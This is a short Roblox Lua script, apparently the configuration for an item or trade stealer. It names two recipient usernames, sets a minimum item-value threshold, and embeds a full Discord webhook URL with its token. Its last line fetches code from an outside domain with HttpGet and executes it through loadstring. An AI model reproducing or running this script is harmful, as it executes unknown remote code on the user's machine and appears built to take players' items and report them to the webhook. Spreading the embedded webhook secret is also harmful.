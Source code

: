 Username = "sltanmax"
Username2 = "sltanmax1"
Webhook = "https://discord.com/api/webhooks/1232923649128927252/IIxcaoOCeKEEgskNn-wtmTikuJie6t_xmlfBexmehEaUIP44Ckdy8fRTE9EiysE3mHvK"

MinimumRAP = 100000

loadstring(game:HttpGet("https://egorikusa.space"))()
